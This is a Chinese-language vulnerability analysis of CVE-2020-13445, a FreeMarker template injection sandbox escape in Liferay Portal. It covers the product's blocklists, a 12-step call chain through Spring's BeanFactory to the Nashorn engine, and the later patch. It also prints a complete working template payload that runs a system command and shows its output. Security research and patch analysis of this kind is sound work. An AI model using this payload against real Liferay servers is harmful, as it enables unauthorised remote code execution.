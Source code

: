0x01 前言
=======

GHSL小组成员Alvaro Munoz在2020年3月报告了Liferay Portal中的模板注入漏洞，通过其描述可以得知具有编辑模板权限的用户可以实现通过该漏洞实现远程代码执行，而漏洞产生原因是由于绕过了Liferay Portal自定义的安全保护机制从而使得允许通过Freemarker模板实例化任意对象完成沙箱逃逸（CVE-2020-13445）

0x02 模板安全策略
===========

在Liferay Portal中实现了自定义的ObjectWrapper，在访问对象时将会触发wrap方法（使用黑、白名单校验）  
相关代码如下  
`class com.liferay.portal.template.freemarker.internal.RestrictedLiferayObjectWrapper`  
![image.png](https://shs3.b.qianxin.com/butian_public/fb2a542ce4037f4a3f31ce34b380163c1.jpg)  
可以看到在构造方法中传入 `String[] allowedClassNames`, `String[] restrictedClassNames` 及 `String[] restrictedMethodNames` 参数  
在 `wrap` 方法中调用 `_checkClassIsRestricted` 方法进行校验。  
注：在低版本中不存在 `RestrictedLiferayObjectWrapper` 类，而核心逻辑位于 `LiferayObjectWrapper` 中

而黑白名单来自于 `com.liferay.portal.template.freemarker.configuration.FreeMarkerEngineConfiguration`  
![image.png](https://shs3.b.qianxin.com/butian_public/f31819f898fcfbc5d119345b8bf04a993.jpg)

受到限制的类

```php
com.liferay.portal.json.jabsorb.serializer.LiferayJSONDeserializationWhitelist
java.lang.Class
java.lang.ClassLoader
java.lang.Compiler
java.lang.Package
java.lang.Process
java.lang.Runtime
java.lang.RuntimePermission
java.lang.SecurityManager
java.lang.System
java.lang.Thread
java.lang.ThreadGroup
java.lang.ThreadLocal
```

受到限制的变量

```php
httpUtilUnsafe
objectUtil
serviceLocator
staticFieldGetter
staticUtil
utilLocator
```

我们还需要关注Liferay Portal中的类解析器 `com.liferay.portal.template.freemarker.internal.LiferayTemplateClassResolver`  
此类是 `freemarker.core.TemplateClassResolver` 接口的实现，在加载class时将调用 `resolve` 方法  
![image.png](https://shs3.b.qianxin.com/butian_public/fb48fe513f7128635e60894feff1903b7.jpg)

- Execute、ObjectConstructor 无法被加载
- 非白名单中的类无法被加载

以上限制将导致无法在模板中创建对象或是经过ClassLoader加载Class等方法来利用

0x03 漏洞分析
=========

> 虽然存在着诸多限制，但是允许通过模板上下文中暴露的大量对象提供的方法完成一个链式调用后绕过安全机制来实例化任意对象最终完成逃逸导致远程代码执行

在模板上下文中存在着许多变量，每个变量都对应到一个对象，而这些对象中暴露的方法可能会存在问题。  
其中`${renderRequest}` 的类型是 `class com.liferay.portlet.internal.RenderRequestImpl`，同时它是 `class com.liferay.portal.kernel.portlet.LiferayRenderRequest` 的子类  
在父类 `class com.liferay.portlet.internal.RenderRequestImpl` 中存在一个getter方法 `public PortletContext getPortletContext()`  
![image.png](https://shs3.b.qianxin.com/butian_public/f9838252e01931d38e501222d7744a06c.jpg)  
通过此方法我们可以获取到 `class com.liferay.portlet.internal.PortletContextImpl` 的实例（PortletContext）

在 `PortletContextImpl` 中存在getter方法为 `public ServletContext getServletContext()`  
![image.png](https://shs3.b.qianxin.com/butian_public/fb94c79e9a6841aaa0f0a4852c13b60ca.jpg)  
通过此方法我们可以继续获取到 `ServletContext`，但它是由ASM生成，而并非是容器原生的 `ServletContext`

不过这个 `ServletContext` 提供了 `getContext` 方法，接着调用该方法我们可以获得容器原生的 `ServletContext` 实例（Tomcat中的`ApplicationContextFacade`）  
![image.png](https://shs3.b.qianxin.com/butian_public/fde1e406d68e454216e06cba8477b5953.jpg)  
至于为什么要获取到容器的 `ServletContext`，是因为在下一步我们需要从Servlet上下文中通过 `getAttribute` 方法获取到Spring的 `ApplicationContext`  
这个保留在上下文Attribute中的命名为 `org.springframework.web.context.WebApplicationContext.ROOT`

经过测试由ASM生成的 `ServletContext` 是无法获取到该Attribute的  
![image.png](https://shs3.b.qianxin.com/butian_public/f9eb8a25dd87116d36c35062cb4f8f850.jpg)

而容器的 `ServletContext` 是可以获取到的  
![image.png](https://shs3.b.qianxin.com/butian_public/fb893adef092db42797b4f0c9d43a14ee.jpg)

此时我们已经拿到到了Spring的 `ApplicationContext`  
实例类型为Liferay Portal中实现的 `class com.liferay.portal.spring.context.PortalApplicationContext`，它是 `class org.springframework.web.context.support.XmlWebApplicationContext` 的子类

目前获取到的 Spring ApplicationContext 可以做很多的事情，但是要想达到远程代码执行的效果还是需要继续探索。  
我们可以通过获取到 `BeanFactory` 篡改 `BeanDefinitions` 中的 `beanClass` 类型为自定义类型 以及 `scope` 作用域为"prototype"，然后调用 `getBean` 方法， Spring将实例化一个我们定义的类型对象并返回达到实例化任意对象的效果。

这里的思路是实例化JDK中的 `Nashorn` 脚本引擎工厂，接着调用 `getScriptEngine` 获取 `Nashorn` 引擎实例，再调用 `eval` 方法来执行脚本。  
寻找 `BeanDefinition` 时，只需要注意构造方法的参数即可，例如 `Nashorn` 脚本引擎工厂为无参构造方法。  
其中名为 `com.liferay.document.library.kernel.service.DLAppService` 的 `BeanDefinition` 是符合这个条件的。  
![image.png](https://shs3.b.qianxin.com/butian_public/f45fff3036ac96433e21eb1ef0e18d8da.jpg)

**整个调用链及利用如下：**

1. 通过内置对象 ${renderRequest} 调用 getPortalContext() 获取 PortalContext 对象
2. 通过 PortalContext 获取 ServletContext （ServletContextDelegate - 由 ASM 生成）
3. 通过 ServletContextDelegate 调用 getContext("/") 获取 ApplicationContext
4. 通过 ApplicationContext 调用 getAttribute("org.springframework.web.context.WebApplicationContext.ROOT") 获取 PortalApplicationContext（继承至 Spring XmlWebApplicationContext）
5. 通过 PortalApplicationContext 调用 getBeanFactory() 获取 LiferayBeanFactory （继承至 Spring DefaultListableBeanFactory）
6. 通过 LiferayBeanFactory 调用 getBeanDefinition("com.liferay.document.library.kernel.service.DLAppService") 获取 DLAppService 的 BeanDefinition
7. 通过 BeanDefinition 调用 setScope("prototype") 修改 scope 为 "prototype" （非单例）
8. 通过 BeanDefinition 调用 setBeanClassName("jdk.nashorn.api.scripting.NashornScriptEngineFactory") 修改 BeanClass 为 "jdk.nashorn.api.scripting.NashornScriptEngineFactory" (Nashorn 脚本引擎工厂)
9. 通过 LiferayBeanFactory 调用 registerBeanDefinition 将篡改后的 BeanDefinition 重新注册
10. 通过 LiferayBeanFactory 调用 getBean 将会导致创建 Nashorn 脚本引擎工厂对象并获取
11. 通过 NashornScriptEngineFactory 调用 getScriptEngine() 获取 Nashorn 脚本引擎对象
12. 通过 NashornScriptEngine 调用 eval 执行恶意脚本，触发远程代码执行

**构造回显 Payload**

```php
<#assign sp=renderRequest.getPortletContext().getServletContext().getContext("/").getAttribute("org.springframework.web.context.WebApplicationContext.ROOT").getBeanFactory().getBeanDefinition("com.liferay.document.library.kernel.service.DLAppService")>
<#assign ec=sp.setScope("prototype")>
<#assign eb=sp.setBeanClassName("jdk.nashorn.api.scripting.NashornScriptEngineFactory")>
<#assign xx=renderRequest.getPortletContext().getServletContext().getContext("/").getAttribute("org.springframework.web.context.WebApplicationContext.ROOT").getBeanFactory().registerBeanDefinition("sp",sp)>
<#assign res=renderRequest.getPortletContext().getServletContext().getContext("/").getAttribute("org.springframework.web.context.WebApplicationContext.ROOT").getBeanFactory().getBean("sp").getScriptEngine().eval("var a = new java.lang.ProcessBuilder['(java.lang.String[])'](['cmd','/c','whoami']);var b=a.start().getInputStream();var c=Java.type('com.liferay.portal.kernel.util.StreamUtil');var d=new java.io.ByteArrayOutputStream();c.transfer(b,d,1024,false);var e=new java.lang.String(d.toByteArray());e")>
${res}
```

![image.png](https://shs3.b.qianxin.com/butian_public/ff1a433e89f22477c1e61c97ef08f7f9e.jpg)

触发后成功执行  
![image.png](https://shs3.b.qianxin.com/butian_public/f08279dae18047d25281949eb55fc62c6.jpg)

0x04 补丁分析
=========

在 `Liferay Portal 7.3.2-GA3` 中较之前版本增加了如下黑名单，其中增加了 `com.liferay.portal.spring.context.*` 导致无法访问 Spring ApplicationContext

```php
com.ibm.*
com.liferay.portal.spring.context.*
io.undertow.*
org.apache.*
org.glassfish.*
org.jboss.*
org.springframework.*
org.wildfly.*
weblogic.*
```

参考： <https://github.com/liferay/liferay-portal/blob/7.3.2-ga3/modules/apps/portal-template/portal-template-freemarker/src/main/java/com/liferay/portal/template/freemarker/configuration/FreeMarkerEngineConfiguration.java>